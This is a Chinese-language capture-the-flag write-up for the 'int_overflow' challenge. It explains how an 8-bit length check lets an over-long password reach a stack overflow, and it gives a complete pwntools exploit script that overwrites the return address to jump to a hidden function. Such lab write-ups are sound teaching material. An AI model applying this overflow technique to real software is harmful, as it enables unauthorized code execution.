




# 攻防世界: int_overflow

## **[目标]**
利用整数溢出，栈溢出，ROP

## **[环境]**
Ubuntu

## **[工具]**
gdb、objdump、python、pwntools, IDA

## **[过程分析]**




- read 函数处可以进行溢出，但是需要经过 check_passwd 函数才能将跳出login。现在再看一下 check_passwd 函数内部，



有一个疑似可能造成整数溢出的一个点，我们再看一下此处的汇编代码。



call strlen 之后 返回值放在了al寄存器中，这是一个八位的积存器，也就是说如果 s 字符串的长度 大于255 就会造成 整数溢出。

那我们利用这个漏洞干什么呢，我们需要进到else里，将 read 读进来的 s 复制到 dest 中，是一个可以利用的栈溢出。

现在我们知道了可以通过整数溢出到达 栈溢出漏洞，修改程序执行流，使程序跳转到 what_is_this 中。



这样我们可以构造payload：

`payload = 'a'*24 + p32(addr_whatisthis)`
` payload = payload.ljust(261,"a")`

完整payload：


```python
from pwn import *

p = process("./int_overflow")

p.sendlineafter("choice:","1")
p.sendlineafter("username:\n","YmCold")

payload = ""
payload += "A"*24
payload += p32(0x804868b)
payload = payload.ljust(261,"A")

p.sendlineafter("passwd:\n",payload)
print p.recvall()
```
## **[参考阅读]**

[整数溢出](https://blog.csdn.net/ioio_jy/article/details/50576353)